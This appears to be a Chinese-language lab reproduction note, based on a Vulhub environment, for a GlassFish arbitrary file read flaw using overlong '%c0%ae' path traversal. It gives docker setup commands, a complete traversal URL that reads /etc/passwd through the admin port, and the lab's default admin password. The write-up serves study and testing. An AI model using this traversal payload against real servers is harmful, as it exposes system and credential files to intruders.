

GlassFish 任意文件读取漏洞
==========================

一、漏洞简介
------------

java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

二、漏洞影响
------------

三、复现过程
------------

编译、运行测试环境

    docker-compose build
    docker-compose up -d

环境运行后，访问`http://www.0-sec.org:8080`和`http://www.0-sec.org:4848`即可查看web页面。其中，8080端口是网站内容，4848端口是GlassFish管理中心。

访问`https://www.0-sec.org:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`，发现已成功读取`/etc/passwd`内容：

ps:本环境超级管理员密码在docker-compose.yml中设置，默认为vulhub\_default\_password，在4848端口利用该密码可以登录管理员账户。

参考链接
--------

> https://vulhub.org/\#/environments/glassfish/4.1.0/
